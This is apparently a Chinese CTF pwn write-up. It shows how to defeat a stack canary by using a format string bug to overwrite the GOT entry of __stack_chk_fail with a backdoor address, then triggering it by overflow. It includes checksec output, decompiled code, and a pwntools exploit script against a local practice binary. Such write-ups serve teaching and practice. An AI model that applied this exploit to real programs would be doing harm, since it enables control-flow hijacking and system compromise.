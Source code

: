 ## 劫持\_\_stack\_chk\_fail函数

### 原理

在开启canary保护的程序中，如果canary不对，程序会转到**stack\_chk\_fail函数执行，**stack\_chk\_fail函数是一个普通的延迟绑定函数，可以通过修改GOT表劫持这个函数。利用方式就是通过格式化字符串漏洞来修改GOT表中的值。

### 条件

存在格式化字符串漏洞

### 利用

checksec一波：

```plain
qufeng@qufeng-virtual-machine:~/Desktop/CTF/pwn/stack/canary$ checksec bin3
[*] '/home/qufeng/Desktop/CTF/pwn/stack/canary/bin3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

IDA分析一波：

存在格式化字符串漏洞

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char format; // [rsp+0h] [rbp-60h]
  unsigned __int64 v5; // [rsp+58h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  init(*(_QWORD *)&argc, argv, envp);
  read_n((__int64)&format, 0x58u);
  printf(&format, 88LL);
  return 0;
}
```

思路：先通过格式化字符串漏洞把\_\_stack\_chk*fail函数对应的got表中的值修改成后门函数地址，在通过栈溢出触发\\*\_stack\_chk\_fail函数的执行从而触发后门函数

脚本如下：

```plain
#-*- coding:utf-8 -*-
from pwn import *
context(os='linux',arch='amd64',log_level='debug')

p = process('./bin3')
e = ELF('./bin3')

system_addr = 0x40084e
stack_chk_fail_got_addr = e.got['__stack_chk_fail']

payload = 'a'*5 + '%' + str(system_addr&0xffff-5) + 'c%8$hn' + p64(stack_chk_fail_got_addr) + 'a'*100

p.sendlineafter('It\'s easy to PWN',payload)
p.interactive()
```

system\_addr&0xffff的含义是取后门地址的两个低字节，然后通过$hn写入两个低字节即可。高字节部分后门函数地址和stack\_chk\_fail函数地址都是相同的。
